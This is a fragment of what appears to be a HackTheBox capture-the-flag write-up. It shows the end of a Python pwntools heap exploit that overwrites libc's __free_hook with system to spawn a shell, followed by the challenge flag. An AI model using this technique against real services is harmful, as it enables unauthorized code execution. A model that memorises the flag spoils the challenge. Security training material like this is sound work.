```py
    delete_plan(0)

    # Hook system to free
    create_plan(0x48, b"A"*0x48)
    create_plan(0x48, b"B"*0x48)
    create_plan(0x48, b"C"*0x48)
    edit_plan(0, b"A"*0x48 + p8(0x80))
    delete_plan(1)
    delete_plan(2)
    create_plan(0x70, b"C"*0x50 + p64(libc.sym.__free_hook))
    create_plan(0x40, b"/bin/sh\x00")
    create_plan(0x40, p64(libc.sym.system))
    delete_plan(2)

    #Win
    r.interactive()

if __name__ == "__main__":
    main()
```

>HTB{0ld_r3l14bl3_l1bc_st1ll_3x15t5_49ded1a8bc9ea474885fc08f253e8c02}
